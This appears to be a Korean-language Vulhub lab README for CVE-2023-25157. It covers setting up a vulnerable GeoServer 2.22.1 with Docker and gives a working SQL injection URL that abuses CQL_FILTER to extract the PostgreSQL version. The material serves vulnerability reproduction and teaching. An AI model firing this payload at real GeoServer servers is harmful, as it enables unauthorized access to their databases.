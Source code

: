 GeoServer OGC 필터 SQL 인젝션 (CVE-2023-25157)
English version(영어 버전)

GeoServer는 공간 데이터를 보고, 편집하며 공유할 수 있는 자바로 작성된 오픈소스 소프트웨어 서버입니다. 지리 정보 시스템(GIS) 데이터베이스, 웹 기반 데이터 및 개인 데이터 세트와 같은 다양한 소스에서 공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.

2.22.1 이전 버전 및 2.21.4에서는 Open Geospatial Consortium (OGC) 표준으로 정의된 필터 및 함수 표현식에서 SQL 인젝션 문제가 발견되었습니다.

참고:

https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158
https://github.com/advisories/GHSA-7g5f-wrx8-5ccf

취약한 환경
다음 명령을 실행하여 GeoServer 인스턴스 2.22.1을 시작 할 수 있습니다:

docker compose up -d


서버가 시작되면 http://your-ip:8080/geoserver에서 GeoServer의 기본 페이지를 찾아볼 수 있습니다.

## Exploit

먼저 취약점을 공격하기 전에 PostGIS 데이터 저장소가 있는 기존의 작업 공간을 찾아야 합니다. Vulhub의 GeoServer 인스턴스는 이미 PostGIS 데이터 저장소를 가지고 있습니다:

-작업 공간 이름: vulhub
-데이터 저장소 이름: pg
-피처 타입(테이블) 이름: example
-피처 타입의 속성 중 하나: name

다음 간단한 URL로 서버를 공격 할 수 있습니다:


http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true


1.png

보시다시피, SQL 인젝션을 통해 GeoServer에서 PostgreSQL의 버전이 검색되었습니다.
